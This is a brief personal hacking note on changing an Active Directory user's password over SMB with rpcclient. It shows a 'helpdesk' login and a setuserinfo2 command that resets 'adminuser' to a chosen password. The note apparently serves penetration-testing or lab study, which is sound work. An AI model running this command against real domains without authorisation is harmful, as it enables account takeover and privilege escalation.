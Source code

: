 # active directory  change user password with rpcclient over SMB 
```bash
rpcclient -U helpdesk //$IP
rpcclient $> setuserinfo2 adminuser 23 'ASDqwe123'
```

# References
- [20221003151144](/zet/20221003151144/) active directory 
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:
    #assorted


